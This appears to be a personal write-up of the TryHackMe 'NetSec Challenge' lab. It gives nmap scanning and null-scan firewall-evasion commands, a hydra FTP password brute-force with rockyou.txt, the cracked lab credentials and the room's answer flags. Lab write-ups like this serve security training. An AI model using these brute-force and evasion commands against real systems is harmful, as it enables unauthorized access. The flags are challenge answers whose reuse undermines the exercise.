 # TryHackMe NetSec Challenge

Category: Network
Description: Use this challenge to test your mastery of the skills you have acquired in the Network Security module. All the questions in this challenge can  be solved using only nmap, telnet, and hydra. 
PrivEsc: No
Status: Done
Tags: Credential-brute-force, FTP, Firewall-evasion, Hydra
URL: https://tryhackme.com/room/netsecchallenge

# TLDR: Attack chain

```bash
# Setup
export ip={target-ip}
ping $ip
# Scanning
sudo nmap -sS -p- $ip -T5 -v
sudo nmap -sS -Pn -p- $ip -T4 --min-rate=9001 -v
nmap -A -p 22,80,139,445,8080,10021 $ip
# Challenge in FTP
echo "eddie\nquinn\n" >> users.txt
hydra -t 16 -L users.txt -P /usr/share/wordlists/rockyou.txt $ip ftp -s 10021 -vV
ftp ftp://quinn:andrea@$ip:10021/
ls
get ftp_flag.txt
quit
cat ftp_flag.txt
# Challenge in port 8080
firefox http://$ip:8080
sudo nmap -sN -Pn $ip -v
```

## Creds found:

| Service | Username | Password |
| --- | --- | --- |
| FTP | quinn | andrea |
| FTP | eddie | jordan |

# Setup and Scanning

![Untitled](NetSec%20Challenge/Untitled.png)

![Untitled](NetSec%20Challenge/Untitled%201.png)

![Untitled](NetSec%20Challenge/Untitled%202.png)

---

# TryHackMe Basic Questions

Most are found through nmap scans 

## 1. What is the highest port number being open less than 10,000?

**Answer:** 8080 

## 2. There is an open port outside the common 1000 ports; it is above 10,000. What is it?

![Untitled](NetSec%20Challenge/Untitled%203.png)

**Answer:** 10021

## 3. How many TCP ports are open

**Answer:** 6

Server Header Flags 

![Untitled](NetSec%20Challenge/Untitled%204.png)

## 4. What is the flag hidden in the HTTP server header?

**Answer:**  THM{web_server_25352}

## 5. What is the flag hidden in the SSH server header?

**Answer:** THM{946219583339}

# TryHackMe FTP Challenge

## 6. We have an FTP server listening on a nonstandard port. What is the version of the FTP server?

**Answer:** vsftpd 3.0.3

## 7. We learned two usernames using social engineering: `eddie` and `quinn`. What is the flag hidden in one of these two account files and accessible via FTP?

Trying default password does not work

### Using Hydra

```jsx
hydra -t 16 -L users.txt -P /usr/share/wordlists/rockyou.txt $ip ftp -s 10021 -vV -I
```

![Untitled](NetSec%20Challenge/Untitled%205.png)

![Untitled](NetSec%20Challenge/Untitled%206.png)

![Untitled](NetSec%20Challenge/Untitled%207.png)

### Credentials found:

- quinn:andrea
- eddie:jordan

### ftp flag

no files found in eddie’s account

![Untitled](NetSec%20Challenge/Untitled%208.png)

flag found in quinn’s account

![Untitled](NetSec%20Challenge/Untitled%209.png)

Getting the flag `get ftp_flag.txt`

**Answer:** THM{321452667098}

# TryHackMe Port 8080 Challenge

## 8. Browsing to `http://$ip:8080` displays a small challenge that will give you a flag once you solve it. What is the flag?

![Untitled](NetSec%20Challenge/Untitled%2010.png)

Use null scan - `sudo nmap -sN -Pn $ip-v`

Exercise Complete! Task **Answer:** THM{f7443f99}